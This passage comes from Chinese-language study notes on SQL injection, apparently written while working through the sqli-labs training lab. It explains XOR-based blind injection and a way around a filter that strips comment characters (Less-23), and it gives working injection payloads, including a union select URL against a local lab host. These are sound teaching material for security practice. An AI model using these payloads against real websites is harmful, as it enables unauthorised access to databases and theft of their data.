 ![image-20240306214544099](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306214544099.png)

### 异或注入

```mysql
id=1^(length(database())<4)^1#
像这种语句，如果中间语句结果为true，那么为1，id=1，如果中间语句结果为false，那么为0，id=0，从而判断出所需要的信息
```



## 注释符号过滤绕过

在Less-23中，注释符全部被过滤无法使用，查看源代码，发现

```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
就是当出现#和--时，就会删掉，从而无法使用注释符
```

可以尝试将单引号闭合从而执行指令，比如

```mysql
http://192.168.88.133/sql/Less-23?id=0' union select 1,database(),3 and '1'='1
```

![image-20240306221638302](SQL%E6%B3%A8%E5%85%A5.assets/image-20240306221638302.png)

